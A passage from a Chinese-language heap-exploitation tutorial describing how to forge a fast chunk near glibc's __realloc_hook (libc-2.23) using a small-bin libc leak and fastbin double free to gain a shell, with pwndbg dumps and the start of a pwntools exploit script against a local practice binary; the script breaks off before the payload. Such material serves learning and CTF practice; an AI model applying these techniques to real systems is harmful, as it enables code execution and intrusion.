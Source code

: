 

**方法2：__realloc_hook处伪造fastchunk**

> 调试环境： Ubuntu 16.04 x64 (libc-2.23)

Glibc全局变量 `__realloc_hook` 附近可以伪造0x70大小的fast chunk，然后可以通过修改 `__relloc_hook` 即可以劫持realloc

```
pwndbg> x/20gx 0x7f5b03e0cb08
0x7f5b03e0cb08 <__realloc_hook>:        0x00007f5b03acda00      0x0000000000000000
0x7f5b03e0cb18: 0x0000000000000000      0x0000000100000000
0x7f5b03e0cb28 <main_arena+8>:  0x0000000000000000      0x0000000000000000
pwndbg> x/20gx 0x7f5b03e0cb08-0x1b
0x7f5b03e0caed <_IO_wide_data_0+301>:   0x5b03e0b260000000      0x000000000000007f
0x7f5b03e0cafd: 0x5b03acde20000000      0x5b03acda0000007f
0x7f5b03e0cb0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
0x7f5b03e0cb1d: 0x0000000000000000      0x0000000000000000
0x7f5b03e0cb2d <main_arena+13>: 0x0000000000000000      0x0000000000000000
```

在此之前需要先构造small bin，借助small bin的double free可以leak libc。small bin释放后的chunk会被放到unsorted bin，触发double free后通过读取chunk中的指针，获得main_area地址。main_area结构地址位于libc中，根据其偏移可以计算libc基址，再进一步就可以确定`__realloc_hook`地址。然后可以通过fastbin的double free控制内存分配在`__realloc_hook-0x1b`处就可以修改该处内存，也就能获取shell，类似的也可以改 `__malloc_hook`。

> 注意small bin和fastbin的区别：
>
> - fastbin是fd指针串起来的单向链表，链表头位于main_area，分配时后进先出
> - small bin是fd、bk指针的双向链表，先进先出，因此通过其中头尾节点能获取到main_area地址(leak libc)
> - small bin释放后会合并相邻的空闲chunk，fastbin则不会自动合并相邻chunk
> - small bin释放后会放入unsorted bin，fastbin释放后依然放入相应fastbin

EXP完整代码如下：

```
#!/usr/bin/env python
from pwn import *
from time import sleep
context(arch='amd64', endian='little', log_level='debug')

elf = ELF('test')
libc = elf.libc
p = process(elf.path)

def show():
	p.sendlineafter('choice:', '1')
	sleep(0.01)

def add(length, content):
	p.sendlineafter('choice:', '2')
	p.sendlineafter(':', str(length))
	p.sendafter(':', content)
	sleep(0.01)

def edit(idx, length, content):
	p.sendlineafter('choice:', '3')
	p.sendlineafter(':', str(idx))
	p.sendlineafter(':', str(length))
	p.sendafter(':', content)
	sleep(0.01)

def delete(idx):
	p.sendlineafter('choice:', '4')
	p.sendlineafter(':', str(idx))
	sleep(0.01)

libc.sym['one_gadget'] = 0xf1147

```